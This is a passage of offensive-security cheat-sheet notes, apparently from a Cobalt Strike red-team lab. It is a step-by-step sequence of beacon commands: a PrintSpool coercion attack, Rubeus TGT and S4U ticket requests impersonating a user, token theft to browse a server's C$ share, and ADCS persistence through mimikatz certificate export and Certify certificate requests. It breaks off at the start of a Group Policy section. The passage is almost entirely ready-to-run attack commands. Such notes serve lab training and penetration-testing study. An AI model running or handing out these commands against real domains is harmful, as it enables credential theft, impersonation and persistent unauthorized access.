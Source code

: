 ```powershell
6. Use PrintSpool attack to force WEB (unconstrained) server to authenticate with wkstn 2 (Domain Sesion)
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe 10.10.122.30 10.10.123.102

7. Use the Base64 encoded machine certificate obtained to get TGT of machine account
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIIM7w[...]ECAggA /nowrap

8. Use the TGT ticket obtained for S4U attack to get a service ticket
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap

9. Inject the Service Ticket by creating a new sacrificial token
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=

10. Steal token and access the service
beacon> steal_token 1234
beacon> ls \\web.dev.cyberbotic.io\c$
```
## ADCS Persistence
```powershell
# User Persistance
1. Enumerate user certificate from their Personal Certificate store (execute from user session)
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates

2. Export the certificate as DER and PFX file on disk
beacon> mimikatz crypto::certificates /export

3. Encode the PFX file to be used with Rubeus
ubuntu@DESKTOP-3BSK7NO ~> cat /mnt/c/Users/Attacker/Desktop/CURRENT_USER_My_0_Nina\ Lamb.pfx | base64 -w 0

4. Use certificate to request TGT for the user (/enctype:aes256 - Better OPSEC)
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIINeg[...]IH0A== /password:mimikatz /enctype:aes256 /nowrap

5. if certificate is not present then requst from his loggedin session and then follow above steps
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:User

# Computer Persistance
1. Export the machine certificate (requires elevated session)
beacon> mimikatz !crypto::certificates /systemstore:local_machine /export

2. Encode the certificate, and use it to get TGT for machine account
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:MIINCA[...]IH0A== /password:mimikatz /nowrap

3. If machine certificate it not stored, we can requet it using Certify (/machine param is required for auto elevation to system privilege)
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:Machine /machine
```
## Group Policy
### Modify Existing GPO
```powershell
1. Identify GPO where current principal has modify rights
```